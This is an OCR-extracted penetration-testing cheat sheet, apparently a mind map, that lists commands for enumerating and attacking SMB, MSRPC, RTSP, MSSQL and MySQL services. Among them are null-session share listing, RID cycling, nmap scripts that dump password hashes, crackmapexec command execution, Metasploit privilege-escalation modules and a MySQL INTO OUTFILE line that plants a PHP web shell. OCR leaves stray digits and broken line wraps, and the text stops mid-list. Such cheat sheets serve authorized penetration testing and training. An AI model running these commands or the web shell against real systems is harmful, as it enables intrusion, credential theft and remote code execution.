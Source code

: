     - GET SID of a user: lookupnames <username>
    - Get users aliases: queryuseraliases [builtin|domain] <sid>
    - List groups: enumdomgroups
    - Get group details: querygroup <0xrid>
    - Get group members: querygroupmem <0xrid>
    - List alias: enumalsgroups <builtin|domain>
    - Get members: queryaliasmem builtin|domain <0xrid>
    - List domains: enumdomains
    - Get SID lsaquery
    - Domain info: querydominfo
    - Find SIDs by name: lookupnames <username>
    - Find more SIDs: lsaenumsid
    - RID cycling (check more SIDs): lookupsids <sid>
  - Listing Shares
    - Null Session
      - smbclient --no-pass -L //<IP>
    - Listinng Shares with Credentials
      - 5smbclient -U 'username[%passwd]' -L [--pw-nt-hash] //<IP>
  - Mount share
    - Without Credential
      - mount -t cifs //x.x.x.x/share /mnt/share
    - With Credential
      - mount -t cifs -o "username=user,password=password" //x.x.x.x/share /mnt/share
  - SMB Relay attack
- MSSRPC (Port 135)
  - Endpoint Mapper Service Discovery
  - Hidden DCERPC Server Discovery
  - Remote Management Interface Discovery
  - DCERPC TCP Service Auditor
- RTSP (Port 554 & 8554)
  - Gathering RTSP Methods
  - RTSP Url Bruteforce
  - Camerader can be used to access RTSP
- MSSQL (Port 1433)
  - Banner Grabbing
  - Basic Information Gathering
    - nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-
    - ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args
    - mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-
    - name=MSSQLSERVER -sV -p 1433 <IP>
  - Execute Commands with MSSQL
    - Authenticated
      - crackmapexec mssql -d <Domain name> -u <username> -p <password> -x "id"
    - UnAuthenticated
      - If xp_cmdshell is enabled, we can execute commands without authentication
  - MSSQL Privilege Escalation
    - auxiliary/admin/mssql/mssql_escalate_dbowner
    - auxiliary/admin/mssql/mssql_escalate_execute_as
- MySQL (Port 3306)
  - Enumerating with nmap
    - nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-
    - password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-
    - 2122 <IP>
  - Banner Grabbing
  - Basic Commands
    - Enumerating Privileges
      - select grantee, table_schema, privilege_type FROM schema_privileges;
    - Enumerating File Privileges
      - select user,file_priv from mysql.user where user='root';
    - Enumerating Current User
      - select user();
    - 6Writing File
      - select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE 'C/xampp/htdocs/shell.php';
    - Reading file